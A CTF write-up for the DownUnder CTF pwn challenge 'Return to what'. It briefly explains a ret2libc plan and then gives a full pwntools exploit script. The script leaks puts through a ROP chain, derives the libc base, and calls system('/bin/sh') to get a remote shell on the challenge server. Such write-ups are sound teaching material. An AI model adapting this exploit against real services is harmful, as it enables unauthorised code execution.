 ## DownUnder CTF: Return to what [pwn]
> This will show my friends!

#### Initial analysis of the security measures for the binary show that NX is enabled. With the aforementioned information, we can safely assume that the title of the challenge is a hint to what we should do: ret2libc. Our plan then is to find some gadgets, leak some addresses from the server, check what libc version it is with `libc.blukat.me`, then create a final rop chain to call system.

##### exploit.py
```python
from pwn import *

#:
p = remote('chal.duc.tf',30003)
print(p.recv())

#:
binary = ELF('./return-to-what', checksec = False)
puts_plt = binary.symbols['puts']
puts_got = binary.got['puts']
main_plt = binary.symbols['main']

#: Stage 1: Leak address of puts
pop_rdi = 0x000000000040122b
ret = 0x0000000000401016

exploit = cyclic(56)
exploit += p64(ret)
exploit += p64(pop_rdi)
exploit += p64(puts_got)
exploit += p64(puts_plt)
exploit += p64(main_plt)

p.sendline(exploit)
leak = int('0x' + hex(u64(p.recv()[:7].ljust(8, '\x00')))[3:], 16)
print('[i] LIBC leak: {}'.format(hex(leak)))

#: Stage 2: Call system('/bin/sh')
libc = ELF('libc6_2.27-3ubuntu1_amd64.so', checksec = False)
libc.address = leak - libc.symbols['puts']
print('[i] LIBC base: {}'.format(hex(libc.address)))

exploit = cyclic(56)
exploit += p64(pop_rdi)
exploit += p64(libc.search('/bin/sh').next())
exploit += p64(libc.symbols['system'])

p.sendline(exploit)
p.interactive()
```
![](shell_2.png)
